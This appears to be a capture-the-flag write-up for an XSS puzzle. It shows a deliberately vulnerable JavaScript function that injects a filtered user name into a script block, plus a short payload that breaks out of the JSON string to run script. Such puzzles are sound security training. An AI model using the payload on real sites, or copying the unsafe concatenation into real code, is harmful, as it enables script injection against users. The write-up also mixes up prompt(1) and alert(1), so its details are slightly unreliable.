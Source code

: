 # level B

```js
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}          
```

payload : "(prompt(1))in"

When we put that payload the statement changes to the following

```var data = {"action":"login","message":"Welcome back, "(alert(1))in"."};```

Here it's checking if alert(1) is in the "." object so it will execute alert(1) first, Hence we'll get the alert.